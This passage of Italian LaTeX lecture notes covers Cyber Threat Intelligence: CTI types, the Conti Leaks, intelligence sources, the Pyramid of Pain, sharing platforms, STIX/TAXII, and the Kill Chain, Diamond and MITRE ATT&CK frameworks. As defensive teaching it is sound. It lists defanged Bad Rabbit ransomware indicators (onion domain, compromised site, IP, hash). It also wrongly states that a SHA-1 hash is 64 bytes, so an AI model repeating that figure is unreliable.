lavoro. Le soluzioni proposte sono:

\begin{enumerate}
    \item \textbf{Iniziare a piccoli passi}: Non pretendere di risolvere tutto subito.
    \item \textbf{Non far fallire le build}: Nelle fasi iniziali, se uno strumento di 
    sicurezza rileva un problema, è meglio segnalarlo senza bloccare la compilazione 
    del software, per non fermare bruscamente la produzione.
    \item \textbf{Feedback immediato}: Fornire riscontri veloci agli sviluppatori 
    affinché possano correggere i problemi man mano che codificano.
\end{enumerate}
\chapter{Cyber Threat Intelligence}

In ambito di sicurezza, il concetto di \textit{Intelligence} si riferisce all'acquisizione 
e allo studio di informazioni strategiche riguardanti un potenziale avversario. 
Identificare l'identità dell'attaccante, comprenderne a fondo le motivazioni e 
valutarne le risorse a disposizione costituiscono operazioni complesse ma di 
fondamentale importanza. Affinché tale conoscenza risulti davvero efficace, è 
essenziale che le informazioni vengano raccolte ed elaborate in tempi rapidi, 
consentendo così la pianificazione e l'attuazione di adeguate contromisure difensive.

\section{Ecosistema della CTI}

Declinando questo approccio nel dominio informatico, si parla specificamente di 
\textbf{Cyber Threat Intelligence (CTI)}. In questo contesto, è cruciale tracciare 
una netta distinzione tra il semplice "dato" e l'"intelligence" vera e propria. 
Quest'ultima non può basarsi sulla mera raccolta di dati grezzi, i quali necessitano 
obbligatoriamente di un processo di analisi, elaborazione e contestualizzazione. A 
titolo esemplificativo, il semplice rilevamento di un \textit{data leak} non 
costituisce di per sé intelligence; lo diventa nel momento in cui tali informazioni 
vengono incrociate e correlate con ulteriori dettagli specifici, permettendo di 
delineare un quadro della minaccia chiaro e utilizzabile a fini difensivi.

Tipi di CTI:

\begin{itemize}
    \item \textbf{Strategica}: Rivolta al \textit{C-level} (personale manageriale), 
    focalizzata su trend e allocazione di risorse a lungo termine.
    \item \textbf{Operativa}: Per gli \textit{Incident Responder} di alto livello. Risponde a
    domande sul "\textit{chi?}", "\textit{perché?}" e valuta campagne specifiche.
    \item \textbf{Tattica}: A brevissimo termine, usata dai team SOC. Si basa su 
    artefatti di rete, IP, domini e hash.
\end{itemize}

Esempio dei \textit{Conti Leaks}: i \textbf{Conti Leaks}, definiti i "\textit{Panama Papers del 
ransomware}", sono un esempio magistrale di CTI operativa derivata da un leak interno. 
L'analisi di questi dati ha permesso di scoprire che il gruppo Conti operava come una 
vera e propria azienda legittima, con dipartimenti HR, tester, reverser, team OSINT e 
persino personale dedicato al training. Ha inoltre rivelato le connessioni operative 
con altri gruppi (\textit{Revil}) e malware (\textit{Ryuk}, \textit{Maze}).

\section{Dati e IOC}

Le fonti informative ("\textit{INTs}") nutrono la CTI. Le principali includono:

\begin{itemize}
    \item \textbf{OSINT (Open-Source Intelligence)}: Dati pubblici, reportistica, 
    query WHOIS o record DNS.
    \item \textbf{HUMINT (Human Intelligence)}: Informazioni derivanti da interazioni 
    umane, come interviste a soggetti coinvolti in intrusioni o leak diretti dai 
    threat actor.
    \item \textbf{Deep/Dark Web e Honeypot}: Sistemi civetta configurati per emulare
    macchine reali e catturare tentativi di exploit o payload di malware.
\end{itemize}

Gli \textbf{Indicatori di Compromissione (IOC)} sono evidenze forensi lasciate 
dall'attaccante (qualsiasi informazione di basso livello di rete o su log). A tal 
proposito riportiamo l'esempio reale del ransomware \textit{Bad Rabbit}:

\begin{lstlisting}
Network/Host Artifacts:
- Domain: hxxp://caforssztxqzf2nm[.]onion 
- Domain: hxxp://argumentiru[.]com 
- IP: 185.149.120[.]3 
- Hash (SHA-1): de5c8d858e6e41da715dca1c019df0bfb92d32c0 
\end{lstlisting}

L'analisi di tali informazioni ha portato a scoprire l'URL che il gruppo di hacker ha usato per 
trasferire il riscatto, il sito di notizie russo infettato con il malware stesso e l'hash 
del payload. L'hash che vediamo è a tutti gli effetti un'impronta digitale, si tratta 
magari dell'hash di un eseguibile che è stato già etichettato come malevolo. L'antivirus stesso 
conserva nel proprio DB solo l'hash dei malware perchè è più pratico e leggero da conservare dato 
che sono appena 64 byte.

Perché usiamo file hash e domini? E perché a volte falliscono? La risposta risiede 
nella \textbf{Pyramid of Pain} di David J. Bianco. Questa piramide modella lo sforzo 
richiesto all'attaccante se il difensore blocca un indicatore:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\linewidth]{img/capitolo9/pyramid.png}
    \label{fig:pyramid}
\end{figure}

\begin{enumerate}
    \item \textbf{Hash Values (Trivial)}: Bannare l'hash di Bad Rabbit è banale, per 
    l'attaccante basta alterare un singolo bit nel payload (es. recompilando o 
    aggiungendo un byte nullo) per cambiare totalmente l'hash, vanificando la difesa.
    \item \textbf{IP/Domini (Easy/Simple)}: L'attaccante usa tecniche di \textit{Fast Flux} 
    o DGA (\textit{Domain Generation Algorithms}) per cambiare rapidamente infrastruttura.
    \item \textbf{TTPs - Tactics, Techniques, and Procedures (Tough)}: Bloccare una 
    TTP (es. bloccare le esecuzioni di \textit{PowerShell} non firmate) costringe 
    l'attaccante a dover riscrivere i tool e cambiare le proprie procedure operative. 
    È qui che la difesa ha il massimo impatto.
\end{enumerate}

\section{Piattaforme e Standard}

Nel contesto operativo della Cyber Threat Intelligence, l'analisi, la catalogazione e 
la condivisione delle informazioni si avvalgono di strumenti e piattaforme specifiche, 
fondamentali per contrastare le minacce in modo tempestivo.

Tra gli strumenti di analisi tecnica spicca \textbf{VirusTotal}, un servizio che 
consente di scansionare file eseguibili tramite l'upload diretto sulla piattaforma. 
Il sistema è progettato per ottimizzare i tempi di risposta: qualora l'eseguibile 
sia già presente nel database e precedentemente analizzato, i risultati vengono 
restituiti quasi istantaneamente. In caso di file inediti, invece, il sistema avvia 
autonomamente un'analisi approfondita avvalendosi di molteplici motori antivirus.

Un approccio complementare è offerto da \textbf{AlienVault}, che opera come un vero e 
proprio aggregatore di informazioni sulle minacce. Rispetto a VirusTotal, questa 
piattaforma si distingue per una natura spiccatamente più "\textit{social}" e 
collaborativa. Caricando un malware al suo interno, il sistema non si limita ad 
analizzarlo, ma è in grado di correlarlo ad altre minacce, permettendo agli analisti 
di individuare pattern ricorrenti e, in molti casi, di ricondurre attacchi 
apparentemente isolati a una medesima entità attaccante.

Spostandoci su una dimensione più strutturata e aziendale, l'esigenza di monitorare 
minacce altamente specifiche per il proprio settore operativo come, ad esempio, il 
comparto bancario richiede l'impiego delle \textbf{Threat Intelligence Platform (TIP)}. 
In questo ecosistema, la soluzione open source di maggiore rilevanza, nonché la più 
adottata a livello europeo, è \textbf{MISP} (\textit{Malware Information Sharing Platform}). 
Tale piattaforma permette di creare archivi dettagliati e pagine specifiche per ogni 
evento o minaccia rilevata, facilitando l'analisi interna.

Tuttavia, affinché questa vasta mole di intelligence possa essere scambiata 
efficacemente tra diverse organizzazioni, è imperativo l'utilizzo di standard 
universali per la rappresentazione e la trasmissione dei dati. I due protocolli di 
riferimento a livello globale sono STIX e TAXII:

\begin{itemize}
    \item \textbf{STIX}: rappresenta il modello linguistico e lo schema relazionale. 
    Esso definisce un'architettura standardizzata, basata su formato JSON, che 
    stabilisce esattamente quali informazioni raccogliere e come strutturare i 
    dettagli tecnici delle minacce.
    \item \textbf{TAXII}: costituisce invece lo standard per il trasporto di questi 
    dati. È un protocollo di comunicazione che permette di configurare in modo 
    granulare la distribuzione dell'intelligence, consentendo lo scambio di 
    informazioni su larga scala o limitandone la diffusione a specifici gruppi 
    ristretti e reti di fiducia.
\end{itemize}

\subsection{Threat Intelligence Feeds}

Un'organizzazione non è necessariamente tenuta a sviluppare e mantenere una funzione 
di Threat Intelligence esclusivamente all'interno del proprio organico. Spesso, per 
ragioni di costi o competenze, risulta strategico affidarsi a servizi commerciali 
forniti da vendor specializzati esterni (modello \textit{Intelligence as a Service}). 
Un esempio emblematico in questo settore è rappresentato dalla piattaforma 
\textbf{Digital Shadows}.

Questo tipo di soluzioni commerciali offre un monitoraggio completo e altamente 
contestualizzato del panorama cibernetico. La piattaforma fornisce un aggiornamento 
continuo attraverso feed informativi sugli attacchi andati a buon fine a livello 
globale, elabora reportistica di dettaglio e, soprattutto, produce sintesi mirate 
che evidenziano quali specifiche minacce potrebbero colpire i diretti \textit{asset} 
dell'azienda cliente.

Il valore aggiunto di tali strumenti risiede in particolare in due funzionalità 
analitiche e di monitoraggio avanzate:

\begin{itemize}
    \item \textbf{Correlazione delle vulnerabilità}: Il sistema è in grado di 
    incrociare in modo proattivo le debolezze e le vulnerabilità note presenti 
    nell'infrastruttura dell'azienda con quelle che vengono attivamente sfruttate 
    (o "armate") dagli attaccanti \textit{in the wild}. Questa contestualizzazione 
    permette ai team di sicurezza di stabilire priorità d'intervento precise per il 
    \textit{patch management}, concentrandosi sui rischi reali ed imminenti.
    \item \textbf{Monitoraggio del Dark Web}: La piattaforma effettua una 
    sorveglianza continua delle reti sommerse e dei forum underground. Qualora dati 
    sensibili, credenziali compromesse o informazioni riservate riconducibili 
    all'organizzazione dovessero emergere in questi ambienti (ad esempio a seguito di 
    una fuga di dati di terze parti), il sistema genera alert tempestivi, consentendo 
    all'azienda di attuare misure di contenimento preventive prima che tali dati 
    vengano sfruttati in attacchi diretti.
\end{itemize}

\section{Framework Analitici}

Modellare e rappresentare in modo accurato una tecnica di attacco è un'operazione 
intrinsecamente complessa. Per superare questa sfida e standardizzare il linguaggio 
utilizzato dagli analisti, l'industria della sicurezza informatica ha sviluppato 
specifici framework di riferimento. I tre modelli principali utilizzati nella Threat 
Intelligence sono la \textbf{Cyber Kill Chain}, il \textbf{Diamond Model} e il 
framework \textbf{MITRE ATT\&CK}.

\subsection{Cyber Kill Chain}

Sviluppato originariamente da Lockheed Martin, questo modello concettuale descrive 
l'anatomia di un attacco informatico suddividendolo in 7 fasi sequenziali. Assegnando 
un nome e una funzione a ciascun passaggio (come la \textit{Reconnaissance} o 
ricognizione, la \textit{Weaponization} o armamento, fino all'azione sugli obiettivi), 
il framework permette ai difensori di tracciare la progressione della minaccia con 
l'obiettivo di "spezzare la catena" prima che l'attacco venga portato a termine.

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo9/ckc.png}
    \label{fig:ckc}
\end{figure}

\subsection{Diamond Model}

Il Diamond Model è uno standard di analisi di alto livello progettato per modellare 
le intrusioni evidenziando le relazioni logiche alla base di un incidente di 
sicurezza.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\linewidth]{img/capitolo9/diamond.png}
    \label{fig:diamond}
\end{figure}

Visivamente rappresentato come un rombo, il modello si fonda su quattro elementi 
(o vertici) interconnessi:

\begin{itemize}
    \item \textbf{L'Avversario}: L'identità o il gruppo che orchestra l'attacco 
    (es. un gruppo State-sponsored o un'organizzazione criminale).
    \item \textbf{La Vittima}: Il bersaglio dell'offensiva, che può essere 
    un'infrastruttura, un'azienda o uno specifico asset.
    \item \textbf{Le Capacità}: Gli strumenti, le tecniche e le competenze tecniche 
    a disposizione dell'attaccante.
    \item \textbf{L'Infrastruttura}: Le risorse fisiche o logiche utilizzate per 
    veicolare l'attacco.
\end{itemize}

\subsection{MITRE ATT\&CK}

Sviluppato dal MITRE, l'ATT\&CK è la base di conoscenza globale più autorevole e 
comprensiva sulle metodologie di attacco. Essendo in continuo aggiornamento, ogni 
qualvolta viene scoperta una nuova metodologia offensiva \textit{in the wild}, il 
catalogo viene espanso. Sebbene la matrice principale sia focalizzata sugli ambienti 
aziendali (\textit{Enterprise}), esistono schemi dedicati anche ad altri domini, 
come il \textit{Cloud}, i dispositivi mobili e i sistemi di controllo industriale 
(\textit{ICS}).

L'architettura logica del MITRE ATT\&CK è organizzata sotto forma di matrice e si 
articola in una gerarchia di tre livelli:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{img/capitolo9/mitre.png}
    \label{fig:mitre}
\end{figure}

\begin{itemize}
    \item \textbf{Tattiche (Tactics)}: Rappresentano l'obiettivo strategico o il 
    motivo per cui un'azione viene compiuta (il "\textit{perché}"). Nella matrice, 
    le tattiche costituiscono le intestazioni delle colonne.
    \item \textbf{Tecniche (Techniques)}: Descrivono il metodo specifico utilizzato 
    per raggiungere una determinata tattica (il "\textit{come}"). All'interno di ogni 
    colonna si trovano le diverse tecniche associate a quell'obiettivo.
    \item \textbf{Procedure (Procedures)}: Costituiscono l'implementazione pratica e 
    specifica della tecnica. Poiché sistemi diversi richiedono approcci diversi, 
    l'esecuzione di una medesima tecnica su un ambiente Windows piuttosto che su 
    macOS richiederà l'uso di procedure e porzioni di codice profondamente distinte.
\end{itemize}

Infine, il framework MITRE non si limita alla classificazione offensiva ma possiede 
un forte valore difensivo: per ogni tecnica censita, la piattaforma fornisce 
informazioni cruciali sulle contromisure preventive e suggerisce regole di \textit{detection}, 
offrendo spunti su come implementare porzioni di codice e configurazioni per rilevare 
la minaccia all'interno della propria infrastruttura.

\end{document}